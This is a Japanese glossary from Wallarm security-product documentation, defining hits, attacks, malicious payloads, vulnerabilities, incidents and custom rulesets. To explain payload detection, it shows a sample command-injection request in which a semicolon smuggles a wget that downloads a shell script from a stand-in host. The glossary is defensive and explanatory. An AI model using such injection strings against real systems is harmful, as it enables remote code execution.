 # 用語集

この用語集は、Wallarmの主要なエンティティを理解するためのものです。

## ヒット

ヒットは、シリアライズされた悪意のあるリクエスト（オリジナルの悪意のあるリクエストとフィルタリングノードによって追加されたメタデータ）です。例：

![Hit の例](images/user-guides/events/analyze-attack-raw.png)

[ヒットのパラメータ詳細](user-guides/events/analyze-attack.md#analyze-requests-in-an-event)

## 攻撃

攻撃とは、以下の特徴によってグループ化された単一のヒットまたは複数のヒットです：

* 同じ攻撃タイプ、悪意のあるペイロードが含まれているパラメータ、そしてヒットが送られたアドレス。ヒットは、同じまたは異なるIPアドレスから来ており、同一の攻撃タイプ内で悪意のあるペイロードの値は異なることがあります。

    このヒットのグループ化方法は基本的なもので、すべてのヒットに適用されます。
* 同じ送信元IPアドレス（適切な [トリガー](user-guides/triggers/trigger-examples.md#group-hits-originating-from-the-same-ip-into-one-attack)が有効化されている場合）。他のヒットのパラメータ値は異なることがあります。

    このヒットのグループ化方法は、ブルートフォース、強制ブラウジング、BOLA（IDOR）、リソース越過、データ爆弾、仮想パッチの攻撃タイプを除くすべてのヒットで機能します。

    ヒットがこの方法でグループ化されている場合、 [**偽陽性としてマーク**](user-guides/events/false-attack.md#mark-an-attack-as-a-false-positive)ボタンと[アクティブ検証](about-wallarm/detecting-vulnerabilities.md#active-threat-verification)のオプションは、攻撃に使用できません。

挙げられたヒットのグループ化方法は相互に排他的ではない。ヒットが両方の方法の特性を持っている場合、それらはすべて一つの攻撃にグループ化されます。

単一のヒットを含む攻撃の例：

![一つのヒットを含む攻撃](images/glossary/attack-with-one-hit-example.png)

多数のヒットを含む攻撃の例：

![いくつかのヒットを含む攻撃](images/glossary/attack-with-several-hits-example.png)

## 悪意のあるペイロード

オリジナルのリクエストの一部で、以下の要素を含みます：

* リクエストで検出された攻撃の兆候。同種の攻撃を特徴付けるいくつかの攻撃の兆候がリクエストで検出された場合、最初の兆候だけがペイロードに記録されます。
* 攻撃の兆候のコンテキスト。コンテキストは、検出された攻撃の兆候の前後を囲む一連の記号です。ペイロードの長さが制限されているため、攻撃の兆候が全ペイロード長の場合、コンテキストは省略できます。

例：

* リクエスト：

    ```bash
    curl localhost/?23036d6ba7=%3Bwget+http%3A%2F%2Fsome_host%2Fsh311.sh
    ```
* 悪意あるペイロード：

    ```bash
    ;wget+http://s
    ```

    このペイロードにおける `;wget+`は [RCE](attacks-vulns-list.md#remote-code-execution-rce) 攻撃の兆候で、ペイロードの他の部分は攻撃の兆候のコンテキストです。

攻撃の兆候は[行動的攻撃](about-wallarm/protecting-against-attacks.md#behavioral-attacks)を検出するためには使用されないため、行動的攻撃の一部として送信されたリクエストはペイロードが空になります。

## 脆弱性
脆弱性とは、ウェブアプリケーションの構築や実装時に無視や情報不足から生じた誤りで、情報セキュリティリスクにつながります。

情報セキュリティリスクには以下のものがあります：

* 不正アクセス；例えば、ユーザーデータの読み取りや修正へのアクセス。
* サービス妨害。
* データの破壊等。

インターネットのトラフィックは脆弱性の検出に使うことができ、これがWallarmの機能の一部です。

## セキュリティインシデント

セキュリティインシデントとは脆弱性が悪用された事象のことです。インシデントは確認された脆弱性に対する [攻撃](#attack) です。

インシデントは攻撃と同様に、あなたのシステム外部のエンティティであり、外部インターネットの特性であり、システム自体の特性ではありません。既存の脆弱性に対する攻撃が少数であるにも関わらず、情報セキュリティにおいては最も重要です。Wallarmは既存の脆弱性に対する攻撃を自動的に検出し、それらを個別のオブジェクトとして表示します - インシデント。

## リングバッファ
リングバッファは、単一の固定サイズのバッファを端から端まで接続されているかのように使用するデータ構造です。
[Wikipediaを参照](https://en.wikipedia.org/wiki/Circular_buffer)。

## カスタムルールセット（旧称はLOM）

カスタムルールセットは、WallarmノードがWallarm Cloudからダウンロードするコンパイル済みセキュリティルールのセットです。

カスタムルールを使用すると、トラフィック処理の個別のルールを設定することができます。例えば：

* Wallarm Cloudにアップロードする前に機密データをマスク
* 正規表現ベースの攻撃指数を作成
* アクティブな脆弱性を利用するリクエストをブロックする仮想パッチを適用
* 特定のリクエストの攻撃検出を無効にする等。

カスタムルールセットはデフォルトでは空ではありません。クラウドに登録されたすべてのクライアントのルールが含まれています。例えば、 [**設定 → 一般** タブ](admin-en/configure-wallarm-mode.md)からのフィルタリングモードルールの値等。

[カスタムルールセット詳細](user-guides/rules/rules.md)

## 無効なリクエスト
フィルターノードによってチェックされ、LOMのルールに一致しないリクエスト。

## リバースプロキシ
リバースプロキシは、クライアントの代わりにサーバーからリソースを取得し、それをWebサーバー自体から来たかのようにクライアントへ返すタイプのプロキシサーバーです。
[Wikipediaを参照](https://en.wikipedia.org/wiki/Reverse_proxy)。

## 証明書発行機関
証明書発行機関（CA）はデジタル証明書を発行する機関です。
[Wikipediaを参照](https://en.wikipedia.org/wiki/Certificate_authority)。
